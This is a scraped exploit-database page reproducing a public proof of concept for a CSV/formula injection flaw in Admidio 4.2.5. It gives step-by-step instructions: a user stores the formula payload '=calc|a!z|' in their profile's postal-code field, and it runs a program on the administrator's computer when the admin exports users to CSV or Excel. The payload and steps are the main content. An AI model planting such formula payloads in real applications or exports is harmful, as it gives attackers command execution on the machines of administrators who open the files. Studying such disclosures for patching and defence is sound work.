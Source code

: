 ```yaml
---
title: Admidio 4.2.5 CSV Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172103&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-04
fetch_date: 2025-10-04T11:39:15.976187
---
```


# Admidio 4.2.5 CSV Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Admidio 4.2.5 CSV Injection

2023-05-03 | CVSS 6.9

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172103
Exploit Title: admidio v4.2.5 - CSV Injection
Application: admidio
Version: 4.2.5
Bugs: CSV Injection
Technology: PHP
Vendor URL: https://www.admidio.org/
Software Link: https://www.admidio.org/download.php
Date of found: 26.04.2023
Author: Mirabbas Ağalarov
Tested on: Windows

2. Technical Details & POC
========================================
Step 1. login as user
step 2. Go to My profile (edit profile) and set postal code as =calc|a!z| and save (http://localhost/admidio/adm_program/modules/profile/profile_new.php?user_uuid=4b060d07-4e63-429c-a6b7-fc55325e92a2)
step 3. If admin Export users as CSV or excell file ,in The computer of admin occurs csv injection and will open calculator (http://localhost/admidio/adm_program/modules/groups-roles/lists_show.php?rol_ids=2)

payload: =calc|a!z|

Poc video: https://www.youtube.com/watch?v=iygwj1izSMQ
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)